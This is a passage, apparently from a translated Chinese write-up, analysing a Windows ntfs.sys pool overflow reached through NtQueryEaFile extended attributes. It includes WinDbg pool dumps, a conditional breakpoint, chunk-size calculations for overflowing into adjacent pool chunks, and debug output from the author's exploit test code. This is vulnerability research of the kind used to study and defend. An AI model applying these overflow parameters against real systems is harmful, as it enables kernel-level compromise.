 - 可变大小堆（Variable Size Heap, VS）  
  
- 段分配（Segment Allocation）  
  
- 大分配（Large Alloc）  
  
我最初使用 NtQueryEaFile 参数 Length 值为 0x12，最终在 LFH 上分配了一个大小为 0x30 的易受攻击的池块，如下所示：  
```
Pool page ffff9a069986f3b0 region is Paged pool ffff9a069986f010 size:   30 previous size:    0  (Allocated)  Ntf0 ffff9a069986f040 size:   30 previous size:    0  (Free)       .... ffff9a069986f070 size:   30 previous size:    0  (Free)       .... ffff9a069986f0a0 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f0d0 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f100 size:   30 previous size:    0  (Allocated)  Luaf ffff9a069986f130 size:   30 previous size:    0  (Free)       SeSd ffff9a069986f160 size:   30 previous size:    0  (Free)       SeSd ffff9a069986f190 size:   30 previous size:    0  (Allocated)  Ntf0 ffff9a069986f1c0 size:   30 previous size:    0  (Free)       SeSd ffff9a069986f1f0 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f220 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f250 size:   30 previous size:    0  (Allocated)  Ntf0 ffff9a069986f280 size:   30 previous size:    0  (Free)       SeGa ffff9a069986f2b0 size:   30 previous size:    0  (Free)       Ntf0 ffff9a069986f2e0 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f310 size:   30 previous size:    0  (Allocated)  Ntf0 ffff9a069986f340 size:   30 previous size:    0  (Free)       SeSd ffff9a069986f370 size:   30 previous size:    0  (Free)       APpt*ffff9a069986f3a0 size:   30 previous size:    0  (Allocated) *NtFE    Pooltag NtFE : Ea.c, Binary : ntfs.sys ffff9a069986f3d0 size:   30 previous size:    0  (Allocated)  Ntf0 ffff9a069986f400 size:   30 previous size:    0  (Free)       SeSd ffff9a069986f430 size:   30 previous size:    0  (Free)       CMNb ffff9a069986f460 size:   30 previous size:    0  (Free)       SeUs ffff9a069986f490 size:   30 previous size:    0  (Free)       SeGa
```  
  
这是由于分配大小小于 0x200 字节所致。  
  
我们可以通过设置条件断点来逐步观察相邻内存块的损坏过程，断点位置如下：  
  
bp Ntfs!NtfsQueryEaUserEaList "j @r12 != 0x180 @r12 != 0x10c @r12 != 0x40 '';'gc'"，然后在 memcpy 位置设置断点。  
  
这个示例忽略了一些在 20H2 版本中常见的分配大小，因为该代码路径在系统正常操作中经常被使用。  
  
需要提到的是，我最初忽略了攻击者对初始池块大小有良好控制这一事实，因此将自己限制在预期的 0x30 字节块大小上。这个限制实际上并不存在，但它表明即使攻击者面临更多限制，通常也能找到解决方法，因此在开始漏洞利用之前，应该始终尝试充分理解漏洞的限制条件 🙂  
  
通过分析易受攻击的 NtFE 分配，我们可以看到以下内存布局：  
```
!pool @r9*ffff8001668c4d80 size:   30 previous size:    0  (Allocated) *NtFE    Pooltag NtFE : Ea.c, Binary : ntfs.sys ffff8001668c4db0 size:   30 previous size:    0  (Free)       C...1: kd> dt !_POOL_HEADER ffff8001668c4d80nt!_POOL_HEADER   +0x000 PreviousSize     : 0y00000000 (0)   +0x000 PoolIndex        : 0y00000000 (0)   +0x002 BlockSize        : 0y00000011 (0x3)   +0x002 PoolType         : 0y00000011 (0x3)   +0x000 Ulong1           : 0x3030000   +0x004 PoolTag          : 0x4546744e   +0x008 ProcessBilled    : 0x0057005c`007d0062 _EPROCESS   +0x008 AllocatorBackTraceIndex : 0x62   +0x00a PoolTagHash      : 0x7d
```  
  
紧接着是数据本身的 0x12 字节。  
  
这意味着块大小的计算将是：0x12 + 0x10 = 0x22，然后向上舍入到 0x30 的段块大小。  
  
然而，我们也可以调整分配的大小和将要溢出的数据量。  
  
作为替代示例，使用以下值可以从 0x70 字节的块溢出到相邻的池块中（调试输出取自测试代码）：  
```
NtCreateFile is located at 0x773c2f20 in ntdll.dllRtlDosPathNameToNtPathNameN is located at 0x773a1bc0 in ntdll.dllNtSetEaFile is located at 0x773c42e0 in ntdll.dllNtQueryEaFile is located at 0x773c3e20 in ntdll.dllWriteEaOverflow EaBuffer1->NextEntryOffset is 96WriteEaOverflow EaLength1 is 94WriteEaOverflow EaLength2 is 59WriteEaOverflow Padding is 2WriteEaOverflow ea_total is 155NtSetEaFileN sucessoutput_buf_size is 94GetEa2 pad is 1GetEa2 Ea1->NextEntryOffset is 12GetEa2 EaListLength is 31GetEa2 out_buf_length is 94
```  
  